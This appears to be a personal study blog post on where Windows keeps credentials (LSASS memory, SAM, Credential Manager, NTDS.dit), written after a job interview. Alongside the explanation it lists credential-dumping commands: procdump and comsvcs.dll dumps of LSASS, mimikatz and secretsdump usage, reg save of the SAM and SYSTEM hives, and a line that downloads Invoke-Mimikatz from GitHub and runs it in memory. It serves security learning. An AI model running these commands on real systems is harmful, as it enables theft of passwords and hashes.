

``

---

Recently, I had a chance to do a quick interview for a position I was interested in.

One of the questions was, "How do you get credentials from Windows?"

My answer was simple: "I would use Mimikatz." The follow-up question was, "So, where does the data come from?"

I simply replied, "From memory." The interviewer gave me a brief explanation and moved on to the next topic. However, I felt a little embarrassed by the fact that I didn’t know the details!

So, I decided to take a deep dive into Windows Authentication systems.

Ironically, Windows Authentication Systems are well described on Microsoft's [website](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/windows-authentication-overview).


---

Here's a mermaid diagram and a markdown table summarizing how Windows stores credentials based on the content and references provided:

### Mermaid Diagram


### Markdown Table

| **Windows Credential Storage** | **Details**                                                                                             | **Attack Vectors**                         |
|---------------------------------|---------------------------------------------------------------------------------------------------------|--------------------------------------------|
| SAM Database                    | Stores local user credentials, specifically NTLM password hashes.                                        | NTLM Hash Reuse, SAM dump, SYSTEM file copy|
| NTLM Hashes                     | NTLM is the hash format used to store passwords locally.                                                  | NTLM Hashes can be reused for attacks      |
| SYSTEM File                     | Contains encryption keys for NTLM hashes in the SAM.                                                     | Access SYSTEM file via Volume Shadow Copy  |
| Volume Shadow Copy               | Used to create a copy of the SAM and SYSTEM files.                                                       | Bypass SAM lock and copy shadow files      |
| Active Directory (AD)            | Centralized database storing domain credentials and Kerberos tickets.                                    | Kerberos ticket attacks, Golden Ticket     |
| Kerberos Authentication         | Domain authentication system that uses tickets for validating users.                                     | Pass-the-Ticket, Golden Ticket attacks     |
| Access Tokens                   | Used for authorization and tracking user permissions after authentication.                               | Token Impersonation and Stealing           |
| LAPS (Local Administrator Password Solution) | Securely manages local admin passwords on domain-joined computers.                             | Gaining access to LAPS data for clear text passwords |
| Group Policy Preferences        | Previously allowed central management of local admin passwords (deprecated due to security flaws).        | Decrypting AES-encrypted passwords in SYSVOL folder |


### 1.0 Local Security Authority Subsystem Service
LSASS is a process rather than a file. As we can see from `Task Manager`, it runs as SYSTEM.   After authentication, LSASS secures credentials in memory for the current session. In domain environment, LSASS manages Kerberos tickets (TGT and session), which are stored in memory. 


According to Microsoft's website: 

> The LSA security subsystem provides services to both the kernel mode and user mode for validating access to objects, checking user privileges, and generating audit messages.


https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc961760(v=technet.10)?redirectedfrom=MSDN

I noticed LSA and LSASS from the above website, but I simply had no clue what they were. A quick description of LSA and LSASS was found on StackExchange:

> There is "LSA" the concept, and "lsass.exe," a process that implements many of the functions of LSA.

https://superuser.com/questions/1370871/what-is-the-relation-between-lsa-and-lsass-in-windows

---

### Authentication-Related Files

| **File Name**    | **Description**                                                                                                                                        |
| ---------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Netlogon.dll** | Manages the computer's secure channel to a domain controller, passing credentials securely and handling replication for Windows NT domain controllers. |
| **Msv1_0.dll**   | Implements the NTLM authentication protocol for clients that don’t use Kerberos.                                                                       |
| **Schannel.dll** | Provides Secure Sockets Layer (SSL) authentication over encrypted channels.                                                                            |
| **Kerberos.dll** | Implements the Kerberos v5 authentication protocol.                                                                                                    |
| **Kdcsvc.dll**   | Kerberos Key Distribution Center (KDC) service, responsible for issuing ticket-granting tickets.                                                       |
| **Lsasrv.dll**   | The Local Security Authority (LSA) server service, which enforces security policies.                                                                   |
| **Samsrv.dll**   | Manages the Security Accounts Manager (SAM), storing local accounts and enforcing policies.                                                            |
| **Ntdsa.dll**    | The directory service module supporting Windows replication and LDAP, managing data partitions.                                                        |
| **Secur32.dll**  | A multiple authentication provider that integrates various authentication components.                                                                  |

---

### 1.1 LSASS Memory Dump

According to [MITRE](https://attack.mitre.org/techniques/T1003/001/), credentials in the LSASS process memory can be dumped in many ways.

#### 1.1.1 ProcDump
```bash
procdump -ma lsass.exe lsass_dump
```

#### 1.1.2 Mimikatz
```bash
sekurlsa::Minidump lsassdump.dmp
sekurlsa::logonPasswords
```

#### 1.1.3 Built-in Windows Tools - comsvcs.dll
```bash
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump PID lsass.dmp full
```

#### 1.1.4 Task Manager


#### 1.1.5 Process Explorer


---

### 1.2 Security Account Manager

The [Security Account Manager (SAM)](https://en.wikipedia.org/wiki/Security_Account_Manager) is a database file that stores users' passwords. Typically, SAM is used for local accounts, and enumerating it requires SYSTEM-level access.

According to [MITRE](https://attack.mitre.org/techniques/T1003/002/), SAM is typically used for local accounts.

Normally the SAM databases are stored in following.
```bash
%systemroot%\system32\config\sam   #main
%systemroot%\repair\sam._          #backup
```

#### 1.2.1 netexec
```bash
netexec smb <IP> -u <User> -p <Password> --sam --local-auth
```

#### 1.2.2 Secretsdump
```bash
secretsdump.py -sam SAM -system SYSTEM LOCAL
or
impacket-secretsdump
```

#### 1.2.3 Windows
```bash
reg save HKLM\SAM c:\Exfiltration\SAM
reg save HKLM\SYSTEM c:\Exfiltration\SYSTEM
```

#### 1.2.4 Mimikatz
```bash
# Load into memory
IEX (IWR -UseBasicParsing "https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1")

# Dump from SAM and SYSTEM. Ensure files are in the current working directory
Invoke-Mimikatz -command "lsadump::sam /system:SYSTEM /sam:SAM"

# Dump against the live hive files
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```

---

### 1.3 Windows Credentials Manager

The [Windows Credentials Manager](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication#windows-vault-and-credential-manager) lets users store credentials for systems and websites in the secure Windows Vault.
>Credential management by using Credential Manager is controlled by the user on the local computer. Users can save and store credentials from supported browsers and Windows applications to make it convenient when they need to sign in to these resources.
>
>When a website, an application, or another computer requests authentication through NTLM or the Kerberos protocol, a dialog box appears in which you select the Update Default Credentials or Save Password check box. This dialog box that lets a user save credentials locally is generated by an application that supports the Credential Manager APIs. 


I can access Credential Manager via the following commands. 

```
>control.exe keymgr.dll
```


Credential management by using Credential Manager is controlled by the user on the local computer.

```bash
C:\Users\[Username]\AppData\Local\Microsoft\Credentials\
C:\Users\[Username]\AppData\Roaming\Microsoft\Credentials
```


# 1.4 NT Directory Services (NTDS )- Active Directory Domain Database.

According to the [XMCO](https://www.xmco.fr/en/active-directory-en/demystifying-the-ntds-1/), 
> The NTDS file is the Microsoft Active Directory database (initially called NTDS for NT Directory Services). The Active Directory is the Windows directory service that manages the identification and security information for objects in an Active Directory. The NTDS file is stored on each domain controller and is created when a Windows server is promoted to a domain controller. Its default location is: `%SystemRoot%\ntds\NTDS.DIT.`

[Microsoft webpage](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/mcm-core-active-directory-internals/ba-p/1785782) indicates the structure of the database. 


According to [HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#active-directory-credentials-ntds.dit),
>The NTDS.dit file is known as the heart of Active Directory, holding crucial data about user objects, groups, and their memberships. It's where the password hashes for domain users are stored. This file is an Extensible Storage Engine (ESE) database and resides at %SystemRoom%/NTDS/ntds.dit.


Normally the file is constantly used by system, hence it cannot be simply copied. 

## 1.4.1 How NTDS can be decrypted?

Domain users' password hashes are encryped with `BOOTKEY` of the `SYSTEM` file of the domain controller.  Hence, attacker will need both NTDS.dit file and SYSTEM to get password hashes.
The following is the location for both NDTS.dit file and SYSTEM. 

```powershell
%SystemRoom%/NTDS/ntds.dit
C:\Windows\System32\config\SYSTEM
```

The hash is cyphered 3 times:

	Decrypt Password Encryption Key (PEK) using the BOOTKEY and RC4.
	Decrypt tha hash using PEK and RC4.
	Decrypt the hash using DES.